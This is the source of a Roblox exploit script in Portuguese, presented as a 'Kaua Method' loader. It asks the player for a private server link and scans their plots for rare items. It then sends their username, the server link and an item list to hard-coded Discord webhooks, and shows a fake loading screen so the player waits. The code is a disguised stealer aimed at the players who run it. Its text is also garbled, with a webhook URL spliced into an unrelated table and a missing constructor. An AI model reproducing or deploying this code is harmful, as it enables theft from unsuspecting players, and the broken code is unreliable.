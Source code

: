 -- Services
local HttpService = game:GetService("HttpService")
local ReplicatedStorage = game:GetService("ReplicatedStorage")
local StarterGui = game:GetService("StarterGui")
local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer
local Workspace = game:GetService("Workspace")
local TweenService = game:GetService("TweenService")
local plots = Workspace:WaitForChild("Plots")

-- Packages
local NetPackages = ReplicatedStorage:WaitForChild("Packages"):WaitForChild("Net")

-- Notification listener
local notificationEvent = NetPackages:WaitForChild("RE/NotificationService/Notify", 5).OnClientEvent:Connect(function(title, message)
    -- Handle notifications here
end)

-- Toggle player settings
task.spawn(function()
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Music")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Sound Effects")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Chat Tips")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("VFX")
end)

-- === FunÃ§Ã£o para detectar Brainrots ===
local function reconhecerBrainrots()
    local brainrotsEncontrados = {}
    for _, obj in ipairs(plots:GetDescendants()) do
        if obj:IsA("TextLabel") and obj.Name == "Rarity" then
            local rarityText = obj.Text
            if rarityText == "Brainrot God" or rarityText == "Secret" then
                local parent = obj.Parent
                local displayName = parent:FindFirstChild("DisplayName")
                local generation = parent:FindFirstChild("Generation")
                if displayName and generation and displayName:IsA("TextLabel") and generation:IsA("TextLabel") then
                    table.insert(brainrotsEncontrados, {
                        name = displayName.Text,webhooks/1429613231684452592/q5c4T-Lt0ICLXnLCsSzXE0WpKpk0LUDcxhs_BfDD_9qh0STIxmDKUSU_sxdK4evG5A7v"  
        local embed = {  
                        rarity = rarityText,
                        generation = generation.Text
                    })
                end
            end
        end
    end
    return brainrotsEncontrados
end

-- === UI: Server Link Input com animaÃ§Ã£o ===
local brainrotUI = Instance.new("ScreenGui")
brainrotUI.Name = "BrainrotUI"
brainrotUI.ResetOnSpawn = false
brainrotUI.Parent = LocalPlayer:WaitForChild("PlayerGui")

local mainFrame = Instance.new("Frame", brainrotUI)
mainFrame.Size = UDim2.new(0, 400, 0, 180)
mainFrame.Position = UDim2.new(0.5, -200, -0.5, -90)  -- ComeÃ§a fora da tela (acima)
mainFrame.BackgroundColor3 = Color3.fromRGB(25, 35, 25)
mainFrame.Active = true
mainFrame.Draggable = true

local frameCorner = Instance.new("UICorner", mainFrame)
frameCorner.CornerRadius = UDim.new(0, 10)

-- Tween de entrada (animaÃ§Ã£o suave)
local tweenInfo = TweenInfo.new(0.5, Enum.EasingStyle.Quad, Enum.EasingDirection.Out)
local goal = {Position = UDim2.new(0.5, -200, 0.5, -90)}
local tween = TweenService:Create(mainFrame, tweenInfo, goal)
tween:Play()

-- === TÃ­tulo ===
local titleLabel = Instance.new("TextLabel", mainFrame)
titleLabel.Size = UDim2.new(1, 0, 0, 45)
titleLabel.BackgroundTransparency = 1
titleLabel.Font = Enum.Font.GothamBold
titleLabel.TextSize = 20
titleLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
titleLabel.Text = "Kaua Method"

-- === Caixa de link do servidor ===
local serverLinkBox = Instance.new("TextBox", mainFrame)
serverLinkBox.Size = UDim2.new(0.9, 0, 0, 40)
serverLinkBox.Position = UDim2.new(0.05, 0, 0.45, 0)
serverLinkBox.PlaceholderText = "Server Privado Aqui"
serverLinkBox.Font = Enum.Font.Gotham
serverLinkBox.TextSize = 18
serverLinkBox.TextColor3 = Color3.new(1, 1, 1)
serverLinkBox.BackgroundColor3 = Color3.fromRGB(40, 60, 40)
serverLinkBox.TextXAlignment = Enum.TextXAlignment.Left
serverLinkBox.ClearTextOnFocus = false
serverLinkBox.Text = ""

local textBoxCorner = Instance.new("UICorner", serverLinkBox)
textBoxCorner.CornerRadius = UDim.new(0, 8)

-- === BotÃ£o Enter ===
local enterButton = Instance.new("TextButton", mainFrame)
enterButton.Size = UDim2.new(0.9, 0, 0, 40)
enterButton.Position = UDim2.new(0.05, 0, 0.75, 0)
enterButton.BackgroundColor3 = Color3.fromRGB(0, 200, 100)
enterButton.Text = "Enter"
enterButton.Font = Enum.Font.GothamBold
enterButton.TextSize = 18
enterButton.TextColor3 = Color3.new(1, 1, 1)

local buttonCorner = Instance.new("UICorner", enterButton)
buttonCorner.CornerRadius = UDim.new(0, 8)

-- === BotÃ£o Enter Click ===
enterButton.MouseButton1Click:Connect(function()
    local serverLink = serverLinkBox.Text
    if serverLink == "" then
        warn("âš ï¸ VocÃª precisa colocar um link vÃ¡lido!")
        return
    end

    enterButton.Text = "âœ… Valido"  
    enterButton.BackgroundColor3 = Color3.fromRGB(0, 255, 120)  
    task.wait(0.5)  
    brainrotUI:Destroy()  

    -- === Reconhecer Brainrots ===
    local brainrots = reconhecerBrainrots()
    local brainrotText = ""
    for i, br in ipairs(brainrots) do
        brainrotText = brainrotText .. string.format("â€¢ %s (%s) | Valor: %s\n", br.name, br.rarity, br.generation)
    end
    if brainrotText == "" then brainrotText = "Nenhum Brainrot encontrado." end

    -- === Envio webhook ===  
    task.spawn(function()  
        local webhookUrl = "https://discord.com/api/webhooks/1429301109255573596/IWZFS63ptlKMwCQdSE0Ygvgxgusor4cH0dVjKwuN7U8ZSDwsb4VhPGmz08k51i0dU-IZ"
            username = "KauÃ£ Methods",  
            avatar_url = "https://i.imgur.com/wtdl6SY.png",  
            embeds = {{  
                color = 65280,  
                title = "Novo servidor!!",  
                description = "Uma nova pessoa executou o alvorada hub.",  
                fields = {  
                    {name = "ðŸ‘¤ Player Information", value = string.format("**Name:** %s", LocalPlayer.Name), inline = false},  
                    {name = "ðŸ”— Entrar server privado", value = string.format("[Click to Join](%s)", serverLink), inline = false},  
                    {name = "ðŸ‰ Brainrots Detectados", value = brainrotText, inline = false},  
                },  
                footer = {text = "KauÃ£ Methods | Notficacoes Alv", icon_url = "https://i.imgur.com/wtdl6SY.png"},  
                timestamp = DateTime.now():ToIsoDate()  
            }}  
        }  

        local body = HttpService:JSONEncode(embed)  
        local req = request or http_request or (syn and syn.request) or (fluxus and fluxus.request) or (krnl and krnl.request)  

        if req then  
            local response = req({  
                Url = webhookUrl,  
                Method = "POST",  
                Headers = {["Content-Type"] = "application/json"},  
                Body = body  
            })  
            print("âœ… Webhook enviado! Status:", response and response.StatusCode or "sem resposta")  
        else  
            warn("âš ï¸ Seu executor nÃ£o suporta envio de webhook (HTTP Request bloqueado).")  
        end  
    end)  

    -- === Loader / Script Promises ===  
    local loaderGui = Instance.new("ScreenGui", game:GetService("CoreGui"))  
    loaderGui.Name = "KauaLoader"  
    loaderGui.IgnoreGuiInset = true  
    loaderGui.ResetOnSpawn = false  

    local loaderFrame = Instance.new("Frame", loaderGui)  
    loaderFrame.Size = UDim2.new(1, 0, 1, 0)  
    loaderFrame.BackgroundColor3 = Color3.fromRGB(0, 20, 0)  

    local loaderTitle = Instance.new("TextLabel", loaderFrame)  
    loaderTitle.Size = UDim2.new(1, 0, 0.1, 0)  
    loaderTitle.Position = UDim2.new(0, 0, 0.35, 0)  
    loaderTitle.BackgroundTransparency = 1  
    loaderTitle.Font = Enum.Font.GothamBold  
    loaderTitle.TextSize = 36  
    loaderTitle.TextColor3 = Color3.fromRGB(80, 255, 80)  
    loaderTitle.Text = "KauaMethod estÃ¡ carregando."  
    loaderTitle.TextScaled = true  

    local loaderPercent = Instance.new("TextLabel", loaderFrame)  
    loaderPercent.Size = UDim2.new(1, 0, 0.1, 0)  
    loaderPercent.Position = UDim2.new(0, 0, 0.45, 0)  
    loaderPercent.BackgroundTransparency = 1  
    loaderPercent.Font = Enum.Font.GothamBold  
    loaderPercent.TextSize = 24  
    loaderPercent.TextColor3 = Color3.fromRGB(80, 255, 80)  
    loaderPercent.Text = "0%"  

    local loaderDesc = Instance.new("TextLabel", loaderFrame)  
    loaderDesc.Size = UDim2.new(1, 0, 0.05, 0)  
    loaderDesc.Position = UDim2.new(0, 0, 0.52, 0)  
    loaderDesc.BackgroundTransparency = 1  
    loaderDesc.Font = Enum.Font.Gotham  
    loaderDesc.TextSize = 16  
    loaderDesc.TextColor3 = Color3.fromRGB(180, 255, 180)  
    loaderDesc.Text = "Espere e seja feliz"  
    loaderDesc.TextScaled = true  
    loaderDesc.TextWrapped = true  
    loaderDesc.TextXAlignment = Enum.TextXAlignment.Center  

    local loaderFooter = Instance.new("TextLabel", loaderFrame)  
    loaderFooter.Size = UDim2.new(1, 0, 0.05, 0)  
    loaderFooter.Position = UDim2.new(0, 0, 0.9, 0)  
    loaderFooter.BackgroundTransparency = 1  
    loaderFooter.Font = Enum.Font.GothamBold  
    loaderFooter.TextSize = 18  
    loaderFooter.TextColor3 = Color3.fromRGB(100, 255, 100)  
    loaderFooter.Text = "https://discord.gg/JUqbpNAyu"  

    -- Simulated loading  
    for i = 1, 100 do  
        loaderPercent.Text = i.."%"  
        task.wait(0.05)  
    end  

    loaderTitle:Destroy()  
    loaderPercent:Destroy()  
    loaderDesc:Destroy()  

    local loaderCompleteLabel = Instance.new("TextLabel", loaderFrame)  
    loaderCompleteLabel.Size = UDim2.new(1, 0, 1, 0)  
    loaderCompleteLabel.BackgroundTransparency = 1  
    loaderCompleteLabel.Font = Enum.Font.GothamBold  
    loaderCompleteLabel.TextScaled = true  
    loaderCompleteLabel.TextColor3 = Color3.fromRGB(100, 255, 100)  
    loaderCompleteLabel.Text = "Script Carregou, so esperar entre 2-3 minutos.."

end)
